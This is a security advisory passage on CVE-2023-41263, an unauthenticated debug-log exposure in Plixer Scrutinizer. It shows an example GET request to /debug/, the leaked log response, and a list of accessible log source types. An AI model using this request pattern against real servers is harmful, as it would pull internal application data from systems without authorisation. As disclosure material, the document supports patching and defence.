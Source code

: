 ### CVE-2023-41263 - Debug Content Exposed

The Plixer Scrutinizer application also exposes debug logs to unauthenticated users at the `/debug/` URL path. Debug logs are stored in this directory with the format `IPADDRESS_ERROR_source.txt`, for example `192.168.1.240_ERROR_json_resp.txt`. With knowledge of valid IP addresses and `source` types, an unauthenticated attacker can download debug logs containing application-related information as demonstrated in the following request and respnse examples:


```http
GET /debug/192.168.1.240_ERROR_json_resp.txt HTTP/1.1
Host: 172.16.2.143
Content-Length: 2
```
***Unauthenticated Request for a Debug Log***

```http
HTTP/1.1 200 OK

---- plixer_fcgi_get_known_objects (PID: 9849) --------------------Fri Sep 24 13:20:46 2021--------------------
Called from: Plixer::Scrutinizer::FastCGI::Modules::Json::json_resp line 40
Called from: Plixer::Scrutinizer::FastCGI::WebApp::run line 1226

40: Not a valid json obj:1 rm:get_known_objects
---- plixer_fcgi_get_known_objects (PID: 9709) --------------------Fri Sep 24 13:20:46 2021--------------------
Called from: Plixer::Scrutinizer::FastCGI::Modules::Json::json_resp line 40
Called from: Plixer::Scrutinizer::FastCGI::WebApp::run line 1226

40: Not a valid json obj:1 rm:get_known_objects
```
***Server Response Containing the Contents of the Requested Log File***


In addition to debug log files with the `json_resp` source type, the following types of debug logs were also accessible without authentication:

- `get_default_or_first_map`
- `get_distributed_tables_from_collectors`
- `parseUrlFilter`
- `run`
- `columns_from_templates`
- `get_default_or_first_map`
- `get_distributed_tables_from_collectors`
- `parseUrlFilter`
- `report_get_finish_data`
- `return_menu`
